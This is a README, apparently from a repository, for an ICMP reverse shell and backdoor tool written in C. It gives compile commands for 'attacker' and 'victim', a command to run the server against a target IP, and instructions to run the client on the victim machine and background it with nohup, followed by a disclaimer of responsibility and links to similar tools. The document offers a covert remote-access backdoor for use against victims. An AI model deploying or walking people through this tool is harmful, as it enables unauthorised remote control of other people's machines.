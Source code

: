 # icmp_reverse_shell

# ICMP REVERSE SHELL / BACKDOOR

Hi, hope you are doing well, this project is about reverse shell using icmp, here is how it can be used

# Usage

FIrstly, compile it in your machine


Attacker:
```bash
gcc server.c -o server -pthread
```

Victim:
```bash
gcc client.c -o client -pthread
```

#### To Run the Server:

```bash
./server <target-ip>
./server 192.168.1.9
```

#### Run the client on victim machine

```bash
./client
```

You can use nohup to put the process in background

```bash
nohup ./client &
```

### Note I'm not responsible for any of your actions,
Be happy.



## References

[ICMPSH](https://github.com/bdamele/icmpsh)

[ICMPSHELL](https://github.com/sin5678/icmp_shell)

[ICMPDOOR](https://github.com/krabelize/icmpdoor)
